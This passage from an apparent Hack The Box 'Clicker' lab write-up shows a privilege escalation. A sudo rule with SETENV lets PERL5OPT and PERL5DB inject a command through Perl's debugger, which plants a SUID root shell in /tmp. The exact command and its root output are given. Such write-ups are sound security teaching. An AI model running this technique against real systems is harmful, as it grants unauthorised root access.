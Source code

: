 Here is `/opt/monitor.sh`:

```bash
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
fi

set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;

data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```

Note that `sudoers` uses `SETENV` in this line:

```console
(root) SETENV: NOPASSWD: /opt/monitor.sh
```

This preserves _all_ environmental variables passed via the command-line. This can be exploited since `monitor.sh` invokes a Perl script (`xml_pp`). Leveraging `PERL5OPT` and `PERL5DB` to inject commands through the Perl debugger is a well-known technique, and it can be applied effectively here:

```console
jack@clicker:~/queries$ sudo PERL5OPT=-d PERL5DB='system("cp /bin/sh /tmp/x; chmod 4755 /tmp/x")' /opt/monitor.sh
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.
jack@clicker:~/queries$ ls -l /tmp/x
-rwsr-xr-x 1 root root 125688 Oct  7 22:31 /tmp/x
jack@clicker:~/queries$ /tmp/x -p
# id
uid=1000(jack) gid=1000(jack) euid=0(root) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
```

## Credits

Thanks to [0xdf](https://0xdf.gitlab.io/2024/01/27/htb-clicker.html#) for the `PERL5OPT` and `PERL5DB` tips for privilege escalation.
